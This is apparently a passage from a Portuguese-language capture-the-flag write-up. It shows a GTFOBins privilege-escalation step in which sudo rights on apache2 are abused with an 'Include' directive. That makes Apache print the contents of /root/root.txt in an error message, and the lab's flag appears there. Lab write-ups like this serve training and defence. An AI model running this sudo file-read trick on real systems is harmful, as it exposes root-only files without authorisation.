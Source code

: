 ![gtfobins-apache2ctl](/notes/writeups-robots-images/gtfobins-apache2ctl.png)

Tentei o segundo método sugerido, porém obtive um erro:

```bash
dolivaw@ubuntu-jammy:~$ LFILE=/root/root.txt
dolivaw@ubuntu-jammy:~$ sudo -u root apache2 -c "Include $LFILE" -k stop
[Fri Jul 25 04:14:12.845551 2025] [core:warn] [pid 1600] AH00111: Config variable ${APACHE_RUN_DIR} is not defined
apache2: Syntax error on line 80 of /etc/apache2/apache2.conf: DefaultRuntimeDir must be a valid directory, absolute or relative to ServerRoot
```

O problema é que a variavel APACHE_RUN_DIR não estava definida.

Tentando novamente, agora definido a variavel que faltou:

```bash
$ sudo -u root /usr/sbin/apache2 -C "Define APACHE_RUN_DIR /tmp" -C "Include $LFILE" -k stop
[Fri Jul 25 04:16:29.709941 2025] [core:warn] [pid 1610] AH00111: Config variable ${APACHE_PID_FILE} is not defined
[Fri Jul 25 04:16:29.710005 2025] [core:warn] [pid 1610] AH00111: Config variable ${APACHE_RUN_USER} is not defined
[Fri Jul 25 04:16:29.710016 2025] [core:warn] [pid 1610] AH00111: Config variable ${APACHE_RUN_GROUP} is not defined
[Fri Jul 25 04:16:29.710032 2025] [core:warn] [pid 1610] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Fri Jul 25 04:16:29.713120 2025] [core:warn] [pid 1610:tid 140677970921344] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Fri Jul 25 04:16:29.713284 2025] [core:warn] [pid 1610:tid 140677970921344] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Fri Jul 25 04:16:29.713303 2025] [core:warn] [pid 1610:tid 140677970921344] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
AH00526: Syntax error on line 1 of /root/root.txt:
Invalid command 'THM{2a279561f5eea907f7617df3982cee24}', perhaps misspelled or defined by a module not included in the server configuration
```
